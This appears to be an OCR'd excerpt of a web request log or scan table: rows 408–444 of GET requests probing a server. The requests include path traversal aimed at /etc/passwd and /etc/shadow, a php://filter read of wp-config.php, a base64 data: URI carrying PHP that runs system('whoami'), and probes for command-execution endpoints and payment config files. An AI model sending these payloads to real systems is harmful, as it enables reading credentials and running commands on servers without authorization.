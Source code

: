 |  408 |                     1 | GET /?file=data:text/plain;base64,PD9waHAgc3lzdGVtKCd3aG9hbWknKTs/Pg== HTTP/1.1                                      |
|  409 |                     1 | GET /?page=../../../../etc/shadow HTTP/1.1                                                                           |
|  410 |                     1 | GET /?file=../../../../etc/shadow HTTP/1.1                                                                           |
|  411 |                     1 | GET /?document=../../../../etc/shadow HTTP/1.1                                                                       |
|  412 |                     1 | GET /?template=../../../../etc/shadow HTTP/1.1                                                                       |
|  413 |                     1 | GET /?page=php://filter/convert.base64-encode/resource=wp-config.php HTTP/1.1                                        |
|  414 |                     1 | GET /diagnostics HTTP/1.1                                                                                            |
|  415 |                     1 | GET /api/exec HTTP/1.1                                                                                               |
|  416 |                     1 | GET /api/run HTTP/1.1                                                                                                |
|  417 |                     1 | GET /api/load?script=whoami HTTP/1.1                                                                                 |
|  418 |                     1 | GET /api/tools/shell HTTP/1.1                                                                                        |
|  419 |                     1 | GET /admin/execute HTTP/1.1                                                                                          |
|  420 |                     1 | GET /admin/debug HTTP/1.1                                                                                            |
|  421 |                     1 | GET /admin/cmd HTTP/1.1                                                                                              |
|  422 |                     1 | GET /internal/exec HTTP/1.1                                                                                          |
|  423 |                     1 | GET /?source=../../../../etc/passwd HTTP/1.1                                                                         |
|  424 |                     1 | GET /internal/run HTTP/1.1                                                                                           |
|  425 |                     1 | GET /?document=../../../../etc/passwd HTTP/1.1                                                                       |
|  426 |                     1 | GET /?path=../../../../etc/passwd HTTP/1.1                                                                           |
|  427 |                     1 | GET /?content=../../../../etc/passwd HTTP/1.1                                                                        |
|  428 |                     1 | GET /?load=../../../../etc/passwd HTTP/1.1                                                                           |
|  429 |                     1 | GET /?theme=../../../../etc/passwd HTTP/1.1                                                                          |
|  430 |                     1 | GET /?lang=../../../../etc/passwd HTTP/1.1                                                                           |
|  431 |                     1 | GET /?section=../../../../etc/passwd HTTP/1.1                                                                        |
|  432 |                     1 | GET /?dir=../../../../etc/passwd HTTP/1.1                                                                            |
|  433 |                     1 | GET /?navigation=../../../../etc/passwd HTTP/1.1                                                                     |
|  434 |                     1 | GET /internal/test HTTP/1.1                                                                                          |
|  435 |                     1 | GET /sepa/transfer_config.ini HTTP/1.1                                                                               |
|  436 |                     1 | GET /smartpay/orchestrator.conf HTTP/1.1                                                                             |
|  437 |                     1 | GET /transactions/swift_mapping.json HTTP/1.1                                                                        |
|  438 |                     1 | GET /alerts/escalation_policy.yaml HTTP/1.1                                                                          |
|  439 |                     1 | GET /bonuses/bonus_structure.yaml HTTP/1.1                                                                           |
|  440 |                     1 | GET /card_network/settings.yaml HTTP/1.1                                                                             |
|  441 |                     1 | GET /cardholder/account_prefs.env HTTP/1.1                                                                           |
|  442 |                     1 | GET /cards/issuance_config.json HTTP/1.1                                                                             |
|  443 |                     1 | GET /chargebacks/settings.env HTTP/1.1                                                                               |
|  444 |                     1 | GET /iap/products_config.json HTTP/1.1                                                                               |